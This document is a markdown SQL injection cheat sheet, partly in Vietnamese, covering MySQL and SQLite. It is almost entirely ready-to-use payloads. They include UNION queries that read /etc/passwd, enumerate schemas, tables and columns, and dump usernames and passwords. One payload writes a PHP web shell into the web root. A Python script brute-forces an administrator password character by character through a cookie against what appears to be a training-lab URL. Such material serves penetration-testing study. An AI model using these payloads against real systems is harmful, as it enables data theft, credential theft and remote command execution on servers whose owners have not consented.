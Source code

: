 # MY SQL INJECTION

## User
`USER()`

## Load_File
- Read system file 

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
- Read source code file in server => path apache web ( /var/www/html/...php )
```sql

```

## Version
`@@version`

## Database 
```sql
' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

- Columns **SCHEMA_NAME** chứa all tên của database hiện tại
- Metadata **INFORMATION_SCHEMA** siêu dữ liệu database và table trên server 
- Table **SCHEMA** chứa tên all database
- Ta cũng có thể lấy tên database hiện tại qua hàm **database()**

```sqli
' UNION select 1,database(),2,3-- -
```

## TABLES
```sql
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

- Columns **TABLE_NAME* chứa all tên của tables hiện tại
- Colums **TABLE_SCHEMA** chứa tên csdl của tables đang trỏ đến
- Table **INFORMATION_SCHEMA.TABLES** siêu dữ liệu chứa all table trên server 
- table_schema='dev' ví dụ ta có tên csdl là dev và truy vấn all các table trên csdl dev đó 

## Columns 
```sql
' UNION select 1,COLUMN_NAME,TABLE_NAME,4 from INFORMATION_SCHEMA.COLUMNS where table_name='devss'-- -
```

- Columns **COLUMN_NAME* chứa all tên của columns hiện tại trên table 
- Table **INFORMATION_SCHEMA.COLUMNS** siêu dữ liệu chứa all column trong table
- table_name='devss' ví dụ ta lấy được tên table là devss và truy vấn all các columns trên tables devss đó thông qua metadata column 

## DATA
```sql
' UNION select 1, username, password, 4 from dev.devss-- -
```

- dev.devss là tables hiện tại csdl_name.table_name

## Write file 
- SELECT .. INTO OUTFILE 'path_file' statement can be used to write data from select queries into file
Ex1: select queries usernamae in table users and save output into /var/www/html/username file
`SQL query :`
```sql
select user from users into outfile '/var/www/html/username';
```

`Cmd`
```cmd
cat /var/www/html/username 
>
1. admin
2. user1
3. user2
```
Ex2: 
```sql
SELECT 'hello' INTO OUTFILE '/var/test.txt';
```

## Web shell
```sql
' union select 1,'<?php system($_REQUEST[0]); ?>',3 ,4 into outfile '/var/www/html/shell.php'-- - 
```

## Blind 
```py
import string
import requests

url='https://acfb1fcd1f5d9cb4c0067543004e007f.web-security-academy.net/'
chars = string.printable[:-6]
#print(chars)
admin_pass=''
i=1
s=requests.Session()
s.get(url)

while True:
	for c in chars:
		payload = f"1' union select '1' from users where username='administrator' and substring(password,{i},1)='{c}'-- -"
		cookie1={"TrackingId":payload}
		r = requests.get(url,cookies=cookie1)
		print(c)
		if 'Welcome' in r.text :
			print('okeeeeeeeeeee')
			admin_pass+=c 
			i+=1
			print(admin_pass)
			break
		if(i==21):
			exit()
```


# SQLite

## Version
`select sqlite_version();`

## Database 
```sql
SELECT sql FROM sqlite_schema
```

## Table name
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

## Column name
```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

 
